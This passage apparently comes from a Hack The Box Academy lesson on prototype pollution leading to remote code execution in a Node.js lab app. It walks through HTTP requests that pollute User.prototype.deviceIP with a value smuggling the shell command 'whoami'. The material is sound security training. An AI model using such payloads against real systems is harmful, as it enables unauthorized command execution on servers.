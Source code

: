 ```javascript
        res.status(500).send({
            error: "Something went wrong!",
        });
    }
});

```

Here, a new user is registered without the `deviceIP` property. Thus, it is set to `null`. If this user is converted to an object of the `User` class in the `init` function, the resulting user object does not contain a `deviceIP` property. We can confirm this using VS Code's debug console by setting an appropriate breakpoint and checking out the variable value:

![image](https://academy.hackthebox.com/storage/modules/205/proto/proto_rce_fixed_1.png)

The prototype of the `userObject` variable is the `User.prototype` object, which is the prototype of the `User` function. This is an ideal target since we want to pollute the `User.prototype.deviceIP` property. As discussed in the previous section, we should avoid moving further up the prototype chain than is required to avoid breaking any web application functionality. Again, let us confirm the attack vector by polluting the prototype using the debug console:

![image](https://academy.hackthebox.com/storage/modules/205/proto/proto_rce_fixed_3.png)

After continuing, we can see the output of our injected command in the web application's response, even though we have not configured a device IP for the newly registered user, thus confirming a prototype pollution RCE vector:

![](https://academy.hackthebox.com/storage/modules/205/proto/proto_rce_fixed_4.png)

* * *

## Exploitation

Now that we have planned our exploit let us move on to the actual exploitation. First, we will register a new user with the following request:

```http
POST /register HTTP/1.1
Host: proto.htb
Content-Length: 35
Content-Type: application/json

{"username":"pwn","password":"pwn"}

```

After logging in, we can pollute the `User.prototype.deviceIP` property by sending the following request:

```http
POST /update HTTP/1.1
Host: proto.htb
Content-Length: 48
Content-Type: application/json
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InB3biIsImlhdCI6MTY4MTA3MjgxMCwiZXhwIjoxNjgxMDc2NDEwfQ.q1dbloU9k06dAymKHXvMvVrpEeYWRXABx9sK7qG6CWg

{"__proto__":{"deviceIP":"127.0.0.1; whoami"}}

```
